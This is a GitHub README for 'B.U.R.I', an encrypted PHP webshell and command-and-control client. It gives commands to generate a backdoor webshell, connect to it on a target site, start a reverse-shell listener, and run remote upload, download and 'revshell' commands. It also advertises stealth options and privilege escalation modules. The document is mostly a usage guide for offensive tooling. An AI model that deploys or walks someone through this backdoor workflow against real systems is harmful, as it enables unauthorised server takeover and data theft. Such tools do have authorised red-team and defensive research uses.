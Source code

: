 # B.U.R.I v2.0 - Encrypted C2 Webshell Client

<img width="563" height="729" alt="image" src="https://github.com/user-attachments/assets/fd44ac00-cf3f-46b1-be0e-a74669280599" />


B.U.R.I (Backdoor Utility for Remote Interaction) is a modular, encrypted command-and-control (C2) webshell client designed for secure and interactive remote administration. It provides a feature-rich interface for managing remote systems via an encrypted PHP webshell, supporting AES-GCM encryption, reverse shell capabilities, and extensible command modules.

## Features

- **Encrypted Communication**: Uses AES-GCM for secure client-server communication.
- **Interactive Shell**: Rich terminal UI with auto-completion, history, and syntax highlighting powered by `rich` and `prompt_toolkit`.
- **Modular Design**: Extensible command modules for custom functionality (e.g., file upload/download, privilege escalation).
- **Reverse Shell Support**: Built-in listener for reverse shell connections.
- **Cross-Platform**: Supports both Linux and Windows targets with dynamic environment detection.
- **Stealth Options**: Customizable POST parameters and proxy support for enhanced discretion.
- **Path Autocompletion**: Remote path completion using `ls` for efficient navigation.

## Installation

### Prerequisites
- Python 3.8+
- Required Python packages:
  ```bash
  pip install requests rich prompt_toolkit pycryptodome
  ```

### Setup
1. Clone the repository:
   ```bash
   git clone https://github.com/joelindra/Buri.git
   cd Buri
   ```
2. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```
3. (Optional) Create a `modules` directory for custom command modules:
   ```bash
   mkdir modules
   ```

## Usage

B.U.R.I supports three main modes: creating a webshell, running an interactive session, and listening for reverse shells.

### 1. Create a Webshell
Generate an encrypted PHP webshell:
```bash
python buri.py create --path shell.php --password 'SuperSecretPass123'
```
This creates a PHP webshell at `shell.php` with the specified password for encryption.

### 2. Run an Interactive Session
Connect to a deployed webshell:
```bash
python buri.py run https://example.com/shell.php -p 'SuperSecretPass123' --param 'data'
```
- `--param`: Specify the POST parameter name (default: `data`).
- `--proxy`: Optional proxy (e.g., `http://127.0.0.1:8080`).

### 3. Start a Reverse Shell Listener
Listen for incoming reverse shell connections:
```bash
python buri.py listen --lhost 0.0.0.0 --lport 4444
```
Then, from the interactive shell, initiate a reverse shell:
```
revshell <listener_ip> 4444
```

### Example Commands
Once in the interactive shell:
- `whoami`: Display the current user.
- `cd /path/to/dir`: Change the remote working directory.
- `ls`: List files in the current directory (supports autocompletion).
- `upload /local/path /remote/path`: Upload a file to the remote system.
- `download /remote/path /local/path`: Download a file from the remote system.
- `revshell <ip> <port>`: Initiate a reverse shell to the specified listener.

### Screenshoot

<img width="1007" height="539" alt="image" src="https://github.com/user-attachments/assets/91932592-65bb-464a-b2d1-d36b2457cbda" />
